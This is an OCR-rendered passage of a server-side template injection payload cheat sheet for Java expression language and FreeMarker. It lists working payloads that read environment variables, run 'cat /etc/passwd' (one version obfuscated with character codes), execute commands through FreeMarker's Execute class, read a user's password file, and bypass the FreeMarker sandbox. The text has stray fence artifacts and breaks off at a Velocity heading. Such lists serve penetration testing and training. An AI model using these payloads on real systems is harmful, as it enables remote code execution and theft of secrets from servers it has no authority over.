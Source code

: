 ```
${class.getResource("../../../../../index.htm").getContent()}
// if ${...} doesn't work try #{...}, *{...}, @{...} or ~{...}.
```
```
**Java - Retrieve the system’s environment variables**

```java
${T(java.lang.System).getenv()}
```
```
**Java - Retrieve /etc/passwd**

```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
```
### FreeMarker (Java)

You can try your payloads at [[https://try.freemarker.apache.org|https://try.freemarker.apache.org]]

- `{{7*7}} = {{7*7}}`
- `${7*7} = 49`
- `#{7*7} = 49 -- (legacy)`
- `${7*'7'} Nothing`
- `${foobar}`

```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```
```
**Freemarker - Sandbox bypass**

⚠️ only works on Freemarker versions below 2.3.30

```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
```
**More information**

- In FreeMarker section of [[https://portswigger.net/research/server-side-template-injection|https://portswigger.net/research/server-side-template-injection]]
- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker]]

### Velocity (Java)
```